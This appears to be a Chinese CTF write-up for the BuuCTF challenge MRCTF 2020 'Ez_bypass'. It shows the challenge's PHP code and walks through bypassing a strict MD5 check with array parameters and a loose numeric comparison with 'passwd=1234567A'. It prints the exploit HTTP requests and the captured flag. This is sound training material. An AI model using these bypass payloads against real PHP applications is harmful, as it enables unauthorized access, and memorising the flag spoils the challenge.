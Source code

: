 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - Bypass
---
```


# \[MRCTF 2020\] Ez_bypass

## 前置工作

进入靶机网页，看到如下代码（已在观感上优化），发现这是一道非常简单的绕过题

```php
<?php
// I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if (isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if (isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd)) {
                 if ($passwd==1234567) {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 } else {
                     echo "can you think twice??";
                 }
            } else {
                echo 'You can not get it !';
            }
        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');
}
```

## MD5 绕过

观察代码 `md5($id) === md5($gg) && $id !== $gg`，通常我可能会想到 `0e` 漏洞，但是这里的 `md5($id) === md5($gg)` 是一个**强比较**，`0e` 漏洞其实行不通，所以我可以通过将 `id` 和 `gg` 定义成数组传入进去以绕过 MD5 的检测，以下是请求代码的一部分

```http
GET /?id[]=1&gg[]=2 HTTP/1.1
```

随后你就可以看到（下方回显已在观感上优化）

```
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48

You got the first step
```

## `passwd` 绕过

这个非常简单，利用的就是字符串和数字的弱比较，既然他想要我的 `password` = `1234567` 并且不是数字，我只需要在传入的时候将 `password` 赋成 `1234567A` 即可，以下是最终的 Http 请求代码（别忘了 `passwd` 要 POST）

```http
POST /?id[]=1&gg[]=2 HTTP/1.1
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 15

passwd=1234567A
```

最后即可得到我们的 Flag，是 `flag{e87c75a7-0ed4-4747-bcee-56b8e230a64a}`